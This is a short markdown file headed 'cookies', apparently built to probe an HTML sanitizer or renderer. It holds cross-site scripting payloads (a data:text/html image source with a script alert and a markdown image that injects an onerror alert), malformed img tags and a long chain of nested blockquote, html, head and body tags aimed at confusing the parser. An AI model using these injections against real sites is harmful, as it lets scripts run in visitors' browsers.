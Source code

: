 # cookies
I lied ¯\_(ツ)_/¯
<<img src='`..data<>text/html,<script>alert(1);</script>.png'>
<<img src='./tr.png'>
<img src='data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVR42mNk+M9QDwADhgGAWjR9awAAAABJRU5ErkJggg==' />
![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVR42mNk+M9QDwADhgGAWjR9awAAAABJRU5ErkJggg==)
![M](< onerror='alert(1)')
<blockquote><blockquote><blockquote><blockquote><blockquote><blockquote><blockquote><blockquote><blockquote><blockquote><blockquote><blockquote><blockquote><head><blockquote><blockquote><blockquote><blockquote><blockquote><blockquote><blockquote><blockquote><blockquote><blockquote><blockquote><blockquote><body><blockquote><blockquote><blockquote><blockquote><head><blockquote><blockquote><blockquote><blockquote><blockquote><blockquote><blockquote><blockquote><blockquote><blockquote><html><blockquote><blockquote><blockquote><blockquote><blockquote><body><blockquote><blockquote><blockquote><blockquote><body><blockquote><blockquote><blockquote><blockquote><blockquote><blockquote><blockquote><blockquote><blockquote><blockquote><blockquote><blockquote><blockquote><blockquote><head><blockquote><blockquote><blockquote><blockquote><blockquote><blockquote><blockquote><blockquote><blockquote><blockquote><blockquote><blockquote><body><blockquote><blockquote><blockquote><blockquote><head><blockquote><blockquote><blockquote><blockquote><blockquote><blockquote><blockquote><blockquote><blockquote><blockquote><html><blockquote><blockquote><blockquote><blockquote><blockquote><body><blockquote><blockquote><blockquote><blockquote><body><blockquote><blockquote><blockquote><head><blockquote><blockquote></html><blockquote class='tabnav tabnav-pr'><blockquote><blockquote><blockquote>HELLO ,<br>THERE 🐲
